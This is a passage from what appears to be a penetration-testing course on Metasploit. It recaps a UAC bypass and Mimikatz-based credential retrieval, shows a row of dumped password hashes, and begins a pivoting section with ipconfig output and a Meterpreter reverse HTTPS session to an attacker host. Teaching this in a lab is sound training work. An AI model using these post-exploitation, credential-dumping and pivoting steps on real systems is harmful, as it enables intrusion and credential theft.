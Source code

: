 ```bash
luiza     ITWK01  167cf9218719a1209efcfb4bce486a18  2f92bb5c2a2526a630122ea1b642c46193a0d837
...
```

First, we discussed what post-exploitation modules in Metasploit are and how we can use them. Then, we used a post-exploitation module on a session to bypass UAC and obtain a shell with high integrity level. Next, we loaded a Meterpreter extension named Kiwi, which provides the capabilities of Mimikatz to retrieve credentials from a system with sufficient privileges.

### Pivoting with Metasploit

The ability to pivot to another target or network is a vital skill for every penetration tester. In Port Redirection and Pivoting, we learned various techniques to perform pivoting. Instead of using these techniques manually, we can also use Metasploit to perform them.

As in the previous sections, we'll connect to the bind shell on port 4444 on the machine ITWK01. Let's assume we are currently gathering information on the target. In this step, we'll identify a second network interface.

```bash
C:\Users\luiza> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::c489:5302:7182:1e97%11
   IPv4 Address. . . . . . . . . . . : 192.168.50.223
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::b540:a783:94ff:89dc%14
   IPv4 Address. . . . . . . . . . . : 172.16.5.199
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

C:\Users\luiza>
```

The second interface has the assigned IP 172.16.5.199. We can try to identify other live hosts on this second network by leveraging methods from active information gathering. Before we do so, let's start a Meterpreter shell on our compromised target by downloading and executing met.exe as well as starting the corresponding multi/handler as we did before.

```bash
[*] Started HTTPS reverse handler on https://192.168.119.4:443
...
[*] Meterpreter session 12 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-05 05:13:42 -0400

meterpreter > 
```
